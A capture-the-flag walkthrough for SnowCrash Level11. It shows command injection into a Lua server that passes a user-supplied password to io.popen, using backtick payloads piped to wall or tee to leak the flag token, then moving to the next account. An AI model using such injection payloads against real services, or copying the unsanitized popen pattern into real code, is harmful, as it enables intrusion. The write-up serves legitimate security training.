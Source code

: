 # Level11

We have a `lua` program. This is a server listening on port 5151 on which a password is expected.  
So we can launch a client with `nc`.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: test
Erf nope..
```

`prog = io.popen("echo "..pass.." | sha1sum", "r")` In lua this line allow user to execute a `command`.  
An another specificity is the `..`. This token is used to concatenate 2 strings.  
So if our `pass` variable is set as `test` the command send in io.popen will be `echo test | sha1sum`.  

So we can use this operation to create a command with `getflag`.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag`                                                                               
Erf nope..
```

I think it's working but in the code no message with the output is send to the client. So we can try to use `wall` to send the output at all clients.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` | wall
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 2:00 ...                                                
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                                                                                       
Erf nope..
```

We can also use `tee` command to get the flag. This command read the stdout and write the content int stdout AND in file(s) given.  

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` | tee /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

level11@SnowCrash:~$ su level12
Password: 
level12@SnowCrash:~$ id
uid=2012(level12) gid=2012(level12) groups=2012(level12),100(users)
```
